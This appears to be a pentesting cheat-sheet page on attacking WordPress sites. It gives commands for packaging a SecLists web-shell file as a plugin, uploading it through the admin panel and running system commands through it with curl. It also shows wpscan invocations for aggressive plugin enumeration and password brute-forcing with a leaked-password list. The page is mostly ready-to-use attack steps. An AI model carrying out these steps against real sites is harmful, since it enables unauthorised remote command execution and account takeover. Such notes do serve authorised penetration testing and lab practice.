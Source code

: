 # WordPress

* [https://www.hackingarticles.in/wordpress-reverse-shell/](https://www.hackingarticles.in/wordpress-reverse-shell/)




## Malicious Plugin

Write a web shell with a malicious plugin.

Copy a plugin shell from SecLists and zip it:

```
$ cp /usr/share/seclists/Web-Shells/WordPress/plugin-shell.php .
$ zip plugin-shell.zip plugin-shell.php
```

Upload `plugin-shell.zip` (Plugins > Add New) and install it (Upload Plugin > Browse... > Install Now) **but do not activate**! Now you can access the web shell:

```
$ curl 'http://10.10.13.37/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=whoami'
```




## wpscan

* [https://github.com/wpscanteam/wpscan](https://github.com/wpscanteam/wpscan)
* [https://wpscan.com/profile](https://wpscan.com/profile)

```
$ wpscan --url http://10.10.13.37/wp/ --api-token <API_TOKEN> --force -e ap [--plugins-detection aggressive] -o wpscan.out
$ wpscan --url http://10.10.13.37/wp/ --api-token <API_TOKEN> --force --passwords /usr/share/seclists/Passwords/darkweb2017-top1000.txt
```
